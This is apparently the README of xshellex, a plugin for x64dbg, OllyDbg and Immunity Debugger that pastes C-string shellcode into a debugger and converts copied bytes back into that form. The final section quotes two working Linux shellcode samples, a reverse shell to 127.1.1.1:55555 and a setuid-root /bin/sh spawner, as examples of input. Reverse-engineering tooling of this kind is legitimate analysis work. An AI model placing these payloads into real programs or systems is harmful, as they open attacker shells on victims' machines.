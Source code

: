 # xshellex
With xshellex you can paste any kind of c-shellcode strings in x64dbg, ollydbg & immunity debugger. Also you can convert the "binary-copied-clipboard" to c-shellcode string.

This plugin uses my shellex c-shellcode converter to HEX:
* https://github.com/David-Reguera-Garcia-Dreg/shellex

## Install

Just download https://github.com/David-Reguera-Garcia-Dreg/xshellex/releases/download/r0.1b/xshellex01b.zip

### x64dbg

Extract the .zip in the x64dbg folder:

Now check if you have installed:
* x64dbg\release\tcc
* x64dbg\release\shellex.exe
* x64dbg\release\x32\plugins\xshellex.dp32
* x64dbg\release\x64\plugins\xshellex.dp64

### ollydbg

Copy the ollydbg folder content to ollydbg path (I use C:\odbg110)

Now check if you have installed:
* C:\odbg110\tcc
* C:\odbg110\shellex.exe
* C:\odbg110\shellex.dll

### immunity debugger

Copy the immunity folder content to C:\Program Files (x86)\Immunity Inc\Immunity Debugger

Now check if you have installed:
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\tcc
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.exe
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.dll

## Use

Go to Plugins --> xshellex --> launch

Paste your c-shellcode string

Press enter

Press Control+Z

Copy the output to clipboard

![Alt text](launch.png)

Use x64dbg Binary Paste (right click in disasm)

![Alt text](binary_paste.png)

WARNING: In x64dbg you can use Paste ignore size BUT in ollydbg & immunity debugger you must select first a long area:

![Alt text](immunity.png)

## Converting clipboard "x64dbg-binary-copy" to c-shellcode string

Select area

Right click --> Binary ---> Copy

![Alt text](binary_copy.png)

Go to Plugins --> xshellex --> clipboard to ....

![Alt text](clipboard_to_shellcode.png)

## Why this plugin?

In real world yummyPaste plugin cant works fine, because you have a lot of garbage to filter, just check shellcodes like

http://shell-storm.org/shellcode/files/shellcode-833.php
```
unsigned char code[] = \

"\x68"
"\x7f\x01\x01\x01"  // <- IP Number "127.1.1.1"
"\x5e\x66\x68"
"\xd9\x03"          // <- Port Number "55555"
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce";
```

https://www.exploit-db.com/exploits/13359
```
char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```

